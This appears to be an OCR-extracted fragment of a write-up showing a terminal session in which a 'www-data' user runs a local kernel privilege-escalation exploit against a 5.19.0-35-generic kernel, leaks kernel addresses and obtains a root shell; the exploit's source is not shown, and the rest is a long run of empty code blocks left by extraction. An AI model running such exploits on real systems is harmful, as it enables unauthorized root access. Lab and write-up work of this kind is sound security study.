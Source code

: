 ```bash
www-data@webserver:/tmp$ chmod +x exploit wrapper

www-data@webserver:/tmp$ ./exploit
./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc0592000
[+] Recovering kernel base
[+] Kernel base: 0xffffffffb0600000
[+] Got root !!!
# id
id
uid=0(root) gid=0(root) groups=0(root)
```


```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```

```bash
```
